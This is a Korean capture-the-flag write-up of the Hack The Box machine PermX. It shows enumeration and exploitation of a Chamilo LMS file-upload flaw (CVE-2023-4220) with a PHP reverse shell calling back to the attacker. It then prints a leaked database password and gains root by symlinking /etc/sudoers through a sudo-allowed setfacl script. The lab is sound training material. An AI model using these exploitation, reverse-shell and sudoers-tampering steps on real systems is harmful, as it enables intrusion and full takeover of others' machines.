 ```yaml
---
title: "PermX  HTB 가치 분석 및 사용법"
description: ""
coverImage: "/assets/img/2024-07-09-PermXHTB_0.png"
date: 2024-07-09 22:54
ogImage: 
  url: /assets/img/2024-07-09-PermXHTB_0.png
tag: Tech
originalTitle: "PermX — HTB"
link: "https://medium.com/@kript0r3x/permx-htb-84871140b508"
isUpdated: true
---
```






<img src="/assets/img/2024-07-09-PermXHTB_0.png" />

리눅스 머신이고, nmap 스캔을 시작하면 두 개의 열린 포트가 나타납니다.

```js
$ nmap -A -sV -sC 10.129.84.129 -oA nmap/PermX
Starting Nmap 7.94 ( https://nmap.org ) at 2024-07-08 10:52 EDT
Nmap scan report for 10.129.84.129
Host is up (0.041s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
|_  256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://permx.htb
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

80번 포트에서 실행되는 웹 서버가 http://permx.htb를 가리킵니다. vhosts에 추가하고 해당 URL로 이동하면 정적 웹 사이트가 표시됩니다. 흥미로운 내용은 없습니다.

<div class="content-ad"></div>

그럼, ffuf를 사용하여 하위 도메인 열거를 수행하면 lms.permx.htb 하위 도메인을 확인할 수 있습니다.

```js
└─$ ffuf -w /opt/useful/Discovery/Web-Content/big.txt:FUZZ -u http://permx.htb:80 -H "Host: FUZZ.permx.htb" -fw 18

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://permx.htb:80
 :: Wordlist         : FUZZ: /opt/useful/Discovery/Web-Content/big.txt
 :: Header           : Host: FUZZ.permx.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 18
________________________________________________

lms                     [Status: 200, Size: 19347, Words: 4910, Lines: 353, Duration: 1389ms]
www                     [Status: 200, Size: 36182, Words: 12829, Lines: 587, Duration: 72ms]
:: Progress: [20476/20476] :: Job [1/1] :: 604 req/sec :: Duration: [0:00:31] :: Errors: 0 ::
```

그 후 vhosts에 추가하고 웹 사이트를 방문하면 Chamilo 웹 애플리케이션의 로그인 페이지가 표시됩니다.

<img src="/assets/img/2024-07-09-PermXHTB_1.png" />

<div class="content-ad"></div>

채밀로 애플리케이션의 최근 취약점을 찾던 중, 아래 GitHub을 발견했어요. 거기에는 인증되지 않은 역방향 코드 실행을 얻기 위한 POC가 나와 있어요.

위 PHP 역술을 사용하면, 위 POC로 역방향 쉘을 획득할 수 있어요. (공격 호스트의 IP 주소로 IP 주소를 수정해주세요)

[https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)

```js
─$ ./CVE-2023-4220.sh -f php-reverse-shell.php -h http://lms.permx.htb -p 1234
-e 
curl: (6) Could not resolve host: lms.permx.htb

# 아래 명령어를 사용하여 TTY를 상호작용하는 데에 사용할 수 있어요;)
# python3 -c 'import pty;pty.spawn("/bin/bash")'
# export TERM=xterm
# CTRL + Z
# stty raw -echo; fg

# 포트 1234에서 역술을 시작했어요. . . . . . . 
```

<div class="content-ad"></div>

www-data 사용자로 쉘에 접속했습니다. linpeas를 실행하여 로컬호스트에서 chamilo 사용자의 데이터베이스 자격 증명을 찾았습니다. 홈 디렉토리를 살펴보니 mtz라는 사용자가 있었습니다. 찾은 비밀번호를 사용하여 mtz 사용자로 호스트에 SSH로 접속했습니다.

```js
/var/www/chamilo/app/config/configuration.php:$_configuration['auth_password_links'] = [                
/var/www/chamilo/app/config/configuration.php:$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
```

```js
cat /var/www/chamilo/app/config/configuration.php
<?php
// Chamilo version 1.11.24
// File generated by /install/index.php script - Sat, 20 Jan 2024 18:20:32 +0000
/* For licensing terms, see /license.txt */
/**
 * This file contains a list of variables that can be modified by the campus site's server administrator.
 * Pay attention when changing these variables, some changes may cause Chamilo to stop working.
 * If you changed some settings and want to restore them, please have a look at
 * configuration.dist.php. That file is an exact copy of the config file at install time.
 * Besides the $_configuration, a $_settings array also exists, that
 * contains variables that can be changed and will not break the platform.
 * These optional settings are defined in the database, now
 * (table settings_current).
 */

// Database connection settings.
$_configuration['db_host'] = 'localhost';
$_configuration['db_port'] = '3306';
$_configuration['main_database'] = 'chamilo';
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
// Enable access to database management for platform admins.
$_configuration['db_manager_enabled'] = false;

/**
```

mtz 사용자로 호스트에 로그인한 후, 사용자 플래그를 찾았습니다. 또한, 이 사용자가 root로서 '/opt/acl.sh'와 같은 사용자 지정 스크립트를 실행할 수 있다는 것을 알게 되었습니다.

<div class="content-ad"></div>

```js
사용자 mtz가 permx에서 다음 명령을 실행할 수 있습니다:
    (ALL : ALL) NOPASSWD: /opt/acl.sh
```

이 스크립트는 모든 사용자에 대해 파일의 권한을 변경할 수 있지만 /home/mtz 디렉토리의 파일 권한만 변경할 수 있습니다.

```js
mtz@permx:~$ cat /opt/acl.sh 
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```

이 스크립트를 사용하여 sudoers 파일의 권한을 변경하고 mtz 사용자에게 호스트에서 sudo 권한을 부여했습니다. 이를 위해 /home/mtz 디렉토리에 /etc/sudoers 파일에 대한 심볼릭 링크를 만들고 사용자에게 읽기/쓰기 권한을 부여하기 위해 스크립트를 사용했습니다.

<div class="content-ad"></div>

```js
mtz@permx:~$ ln -s /etc/sudoers ./tada
mtz@permx:~$ sudo /opt/acl.sh mtz rw /home/mtz/tada
```

다음과 같이 sudoers 파일을 수정했습니다.

```js
<SNIP>

@includedir /etc/sudoers.d
mtz ALL=(ALL:ALL) NOPASSWD: ALL
```

다시 로그인하고 'sudo su'를 입력하면 루트 셸을 얻을 수 있습니다.


<div class="content-ad"></div>

```js
mtz@permx:~$ sudo su
root@permx:/home/mtz# cd /root
root@permx:~# ls
backup  reset.sh  root.txt
```